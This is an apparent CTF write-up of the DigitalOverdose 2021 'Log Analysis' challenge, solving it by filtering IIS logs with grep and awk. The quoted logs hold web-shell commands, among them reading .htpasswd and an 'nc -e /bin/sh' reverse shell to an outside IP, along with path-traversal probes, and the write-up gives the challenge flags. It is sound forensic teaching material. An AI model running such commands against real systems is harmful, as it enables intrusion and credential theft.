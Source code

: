 ```yaml
---
   title:  "#writeup: DigitalOverdose - Log Analysis"
   layout: post
   date:   2021-10-10
   ctfs: true
   permalink: /writeup-dover21
   redirect_to: https://scavengersecurity.com/posts/digitaloverdose-loganalysis/
   author: jartigag
   tag:
   - ctf
   - análisis
   - ciberseguridad
   - windows
   mastodonReplies: https://mastodon.social/@jartigag/107079704581201058
   twitterReplies: https://twitter.com/jartigag/status/1447522555275927552
   telegramReplies: https://t.me/jartigag_blog/42
---
```


[https://scavengersecurity.com/posts/digitaloverdose-loganalysis/](https://scavengersecurity.com/posts/digitaloverdose-loganalysis/)

```
original writeup metadata:
---
title: Log Analysis
event: DigitalOverdoseCTF 2021
date: 2021-10-09
discipline: log analysis
difficulty:
    - easy, 100 points. 34 solves when solved [2021-10-09 11:57 CEST], 133 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 150 points. 17 solves when solved [2021-10-09 11:57 CEST], 100 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 200 points. 13 solves when solved [2021-10-09 11:57 CEST],  84 solves at end [2021-10-10 21:50:33 CEST]
author: jartigag
tags: iis logs, access logs, grep, awk
---
```

# Log Analysis

> An incident has affected our website! Fortunately, we have logs.

This is a 3-part challenge. Two IIS logs are provided:

```bash
$ ll *log
9,4M attack.log
 46M more.log
$ for f in *log; do cat $f | (head -2; tail -1); done
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-09-01 00:28:00 135.233.142.30 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 83.147.40.142 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.1;+WOW64;+Trident/5.0) - 200 0 0 22
2021-09-06 23:49:22 135.233.142.30 GET conference - 443 - 194.48.242.119 Mozilla/4.0+(compatible;+MSIE+7.0;+Windows+NT+5.1) https://digitaloverdose.tech/ctf 200 0 0 20
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-08-01 00:27:00 45.85.1.176 GET cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js - 443 - 185.251.117.121 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;+.NET+CLR+1.1.4322) - 200 0 0 24
2021-08-31 23:34:04 45.85.1.176 GET privacy - 443 - 31.185.221.23 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1) https://digitaloverdose.tech/dovercon/2021 200 0 0 20
```

## 1 - Ingress

> Our website was hacked recently and the attackers completely ransomwared our server!
> We've recovered it now, but we don't want it to happen again.
> Here are the logs from before the attack, can you find out what happened?

We start inspecting some log fields, looking for something uncommon. For example, in the [`cs(Referer)` field](https://en.wikipedia.org/wiki/HTTP_referer):
```shell
$ awk '{print $(NF-4)}' attack.log | sort | uniq -c | sort -nr
   6947 -
   1343 https://digitaloverdose.tech/dovercon/sponsoring-edition-2021
   1318 https://digitaloverdose.tech/dovercon/2021/speakers
   1286 https://digitaloverdose.tech/dovercon/2021/code-of-conduct
   1278 https://digitaloverdose.tech/dovercon/2021/about
   1268 https://digitaloverdose.tech/dovercon/2021
   1262 https://digitaloverdose.tech/privacy
   1255 https://digitaloverdose.tech/ctf/2021-autumn
   1230 https://digitaloverdose.tech/team
   1225 https://digitaloverdose.tech/faq
   1224 https://digitaloverdose.tech/dovercon/2021/cfp
   1214 https://digitaloverdose.tech/copyright
   1213 https://digitaloverdose.tech/ctf/2021-spring
   1210 https://digitaloverdose.tech/dovercon
   1210 https://digitaloverdose.tech/conference
   1208 https://digitaloverdose.tech/dovercon/2021/sponsoring
   1206 https://digitaloverdose.tech/dovercon/cfp-edition-2021
   1205 https://digitaloverdose.tech/dovercon/team-edition-2021
   1204 https://digitaloverdose.tech/home
   1202 https://digitaloverdose.tech/ctf/about
   1197 https://digitaloverdose.tech/
   1194 https://digitaloverdose.tech/ctf
   1149 https://digitaloverdose.tech/dovercon/schedule-edition-2021
   1149 https://digitaloverdose.tech/dovercon/2021/mentors
   1135 https://digitaloverdose.tech/dovercon/2021/schedule
   1118 https://digitaloverdose.tech/dovercon/2021/team
   1090 https://digitaloverdose.tech/dovercon/speakers-edition-2021
      7 https://digitaloverdose.tech/ywesusnz
      1 cs(Referer)
```

What is that `ywesusnz`? Let's look which requests were made from that URI:
```shell
$ grep ywesusnz attack.log
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+.. 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/faq 200 0 0 20
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 21
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 22
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 20
$ echo RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== | base64 -d
DO{better_remove_that_backdoor}
```

## 2 - Investigation

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}

What characters would a suspicious request contain (maybe looking for a [path transversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack))?

```shell
$ grep "\.\." more.log | (head -3; tail -1)
2021-08-03 08:55:00 45.85.1.176 GET ../..//passwords.bckp - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 27
2021-08-03 08:55:00 45.85.1.176 GET ..//configuration.3 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET ../../..//db_config.1 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 25
2021-08-03 08:55:08 45.85.1.176 GET ../..//admin.txt - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 30
```

So we compose the flag with the client IP:

`DO{200.13.84.124}`

## 3 - Backup Policy

> So it looks like the attacker scanned our site for old backups right?  Did he get one?

Filtering the attack date and excluding the "404 - Not found" response code:

```bash
$ grep "2021-08-03 08:55" more.log | grep -v 404
2021-08-03 08:55:00 45.85.1.176 GET 8-es2015.9f210c2bd083cdacb0ee.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 26
2021-08-03 08:55:00 45.85.1.176 GET backup.zip - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+RE97czNjcjN0X19fYWdlbnR9;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 200 0 0 25
2021-08-03 08:55:29 45.85.1.176 GET runtime-es5.43df09c2199138dc23a5.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 22
2021-08-03 08:55:29 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 27
2021-08-03 08:55:29 45.85.1.176 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:29 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 21
2021-08-03 08:55:39 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 30
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
2021-08-03 08:55:39 45.85.1.176 GET dovercon/schedule-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
$ echo "RE97czNjcjN0X19fYWdlbnR9" | base64 -d
DO{s3cr3t___agent}
```
